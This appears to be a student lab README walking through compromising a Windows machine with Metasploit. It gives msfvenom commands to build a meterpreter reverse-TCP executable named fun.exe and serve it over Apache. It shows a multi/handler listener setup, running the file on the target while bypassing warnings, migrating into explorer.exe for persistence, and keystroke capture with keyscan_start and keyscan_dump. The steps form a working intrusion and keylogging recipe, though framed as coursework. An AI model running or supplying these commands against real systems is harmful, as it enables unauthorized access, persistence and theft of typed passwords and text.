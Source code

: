 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 111203](https://github.com/user-attachments/assets/f502fbad-fa63-43b0-a764-bd5d668829f0)






Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111219](https://github.com/user-attachments/assets/e0bb5eb9-e3ee-44da-9b23-6b8f35ef0d1a)







copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 111421](https://github.com/user-attachments/assets/4ddc6822-5ea4-474d-9585-8a06ac09cfa0)



Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-07 111543](https://github.com/user-attachments/assets/8ce9e844-c444-426e-ae16-034af3cd6e5b)






Check the status of apache2
![Screenshot 2025-04-07 112128](https://github.com/user-attachments/assets/e3317be1-ef42-4cd9-90e0-8c04e27e7318)





Invoke msfconsole:
## OUTPUT:






Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 114636](https://github.com/user-attachments/assets/b03d96a2-1d8d-4dec-8a0f-22c7cec2b903)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 141549](https://github.com/user-attachments/assets/1280db57-07f0-4f80-8c79-d2915f41f8f3)




Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 






Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-11 142118](https://github.com/user-attachments/assets/5e89add7-61d5-489a-9cca-d223c37acec4)





keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115015](https://github.com/user-attachments/assets/2cd42810-8016-4632-97ca-6ab56f11c012)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

